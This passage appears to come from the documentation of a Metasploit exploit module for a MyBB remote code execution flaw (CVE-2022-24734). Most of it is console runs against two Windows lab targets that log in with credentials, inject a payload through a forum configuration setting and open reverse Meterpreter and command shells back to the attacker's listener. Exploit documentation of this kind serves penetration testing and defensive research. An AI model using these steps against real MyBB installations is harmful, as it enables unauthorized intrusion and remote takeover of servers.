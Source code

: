 ### Windows (target 3 - PowerShell (In-Memory))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > set target 3
target => 3
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Powershell command length: 6767
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (175174 bytes) to 192.168.1.215
[*] Meterpreter session 5 opened (192.168.1.44:4444 -> 192.168.1.215:63818) at 2022-05-23 15:43:54 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 8
Meterpreter     : x86/windows
```


### Windows (target 4 - Windows (In-Memory))
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > set target 4
target => 4
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command shell session 6 opened (192.168.1.44:4444 -> 192.168.1.215:63848) at 2022-05-23 15:44:23 +0200


Shell Banner:
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

```
